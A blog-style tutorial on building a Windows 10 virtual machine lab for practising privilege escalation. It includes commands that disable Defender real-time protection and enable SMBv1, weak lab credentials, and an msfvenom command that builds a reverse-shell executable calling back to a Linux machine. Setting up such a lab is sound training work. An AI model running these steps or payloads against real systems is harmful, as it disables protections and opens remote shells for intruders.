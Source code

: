 ```yaml
---
title: "Windows Privilege Escalation lab"
date: 2023-02-16T13:41:42+03:00
menu:
  sidebar:
    name: Setting Up a lab
    identifier: setting_up_a_lab
    parent: windows_privesc
    weight: 1
draft: false
---
```




## A Step-by-Step Guide

When it comes to privilege escalation, the biggest obstacle learners face is where to practice. Most of the time, this is a step that comes after performing all other steps like reconnaissance, scanning, and gaining low privilege user access. When I was looking to better understand privilege escalation, I wanted a lab where I could practice this step alone, without having to go through different steps to gain low privilege user access. This blog post will help you with that. We will learn how to set up a lab where we can practice our craft

To create a lab for testing and learning Windows privilege escalation, the following steps will help achieve that. As this is a post-exploitation process, this write-up assumes that the reader understands how to set up a hacking lab using virtual machine software and how to use Linux.

The following are the steps to set up a lab for practising Windows privilege escalation:

#### Step 1: 
Ensure that you have a virtual machine software with Linux installed. This is because we will be installing the Windows 10 that we will be attacking into the same virtual machine sotware.


#### Step 2: 
Download the [Windows 10 ISO](https://www.microsoft.com/en-us/software-download/windows10ISO) from the Microsoft website and download the following tools to your Linux directory: [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1), [winPEASany.exe](https://github.com/carlospolop/PEASS-ng/releases/download/20230212/winPEASany.exe), [setup script](https://raw.githubusercontent.com/Tib3rius/Windows-PrivEsc-Setup/master/setup.bat), and so on. You can download all the tools you want to use for Windows privilege escalation.


#### Step 3:
Install Windows 10 into a virtual machine. Again, as this is a post-exploitation step, it as sumes that you have a basic knowledge of setting up a hacking lab.


#### Step 4:
Log in to the Windows 10 machine and perform the following:

-  Enable SMB version 1 for easier file transfer. To do this, open PowerShell as an administrator and run:

`Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All`

-  Disable real-time protection on Windows. Open PowerShell as an administrator and run:

`Set-MpPreference -DisableRealtimeMonitoring $true`


#### Step 5:

-  If you downloaded the tools into the Windows 10 that we installed, then continue with step 7.
-  If you used a Linux machine to download the tools and script above, change the directory to the one with the tools and set up an SMB server in a directory where the tools are with the following command (my directory's name is  tools, change the directory name in the command to that of yours):

`python /usr/share/doc/python3-impacket/examples/smbserver.py tools .`

![screenshot_for_tools](Screenshotfrom2023-02-1415-07-20.png)
*The above screenshot shows tools in my kali machine.* 


&nbsp;  


![python_command](Screenshotfrom2023-02-1415-07-59.png) 
The above screenshot shows the python command to setup smb server. 

&nbsp;  

#### Step 6: 
In our Windows 10, since we already enabled SMB protocol, open the Command Prompt (CMD) as an administrator and copy the setup.bat file from the Kali Linux machine where we set up the SMB server to our Windows machine using the following command:


```
copy \\{put IP address of the Linux machine}\{folder where you set up an SMB server}\setup.bat .

e.g. copy \\192.168.1.123\tools .
```

#### Step 7.
-   Run the setup script. On your cmd as administrator, change folder to where you saved the script and run the following command.

`.\setup.bat`

-   When the script finishes, restart Windows.

#### Step 8.
-   The VM (Windows machine) should auto-login as an admin user. We have to sign out and login as a user in order to continue with Windows privilege escalation practices.

Credentials for logging in after running a setup script
```
User: User, password: password321  
User: Admin, password: password123
```

-   Sometimes after you log in as a user, you will get a command prompt asking you for an Admin password. Provide the above password to continue.

#### Step 9.
-   Create a snapshot of your VM if the VM software you are using supports it. This will let you reset the VM to this exact point if you want to start again with a fresh setup.
-   A writable directory exists in the C drive called PrivEsc. You can use this directory to save files.

#### Step 10. 
In your Linux machine, create a reverse shell payload that will be used in a Windows machine when we have any admin privilege to execute commands. Run the following msfvenom command on Linux terminal

`# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.127 LPORT=53 -f exe -o reverse.exe`

Please change the `LHOST` to your `Linux IP address`, and `LPORT` to the `port you want to listen to.` This reverse shell can be caught using netcat or Metasploit’s own multi/handler.

- Copy this payload into windows PrivEsc folder.
`e.g. copy\\192.168.1.123\tools\reverse.exe . `
- Then create a listener using netcat or metasploit's multi/handler.
- Run the reverse shell payload (`.\reverse.exe`) to continue with the practise using linux machine instead on windows machine 
![reverse_listener](reverse_and_listner.png)

&nbsp;  
### Conclusion
The aforementioned steps demonstrate how to establish a lab for practising Windows privilege escalation. By following these instructions, you can create a completely functional lab environment to enhance your skills in Windows privilege escalation. Through this lab, you can gain valuable insights into identifying and exploiting vulnerabilities, comprehending the intricacies of escalating privileges, and improving your ability to secure Windows systems.
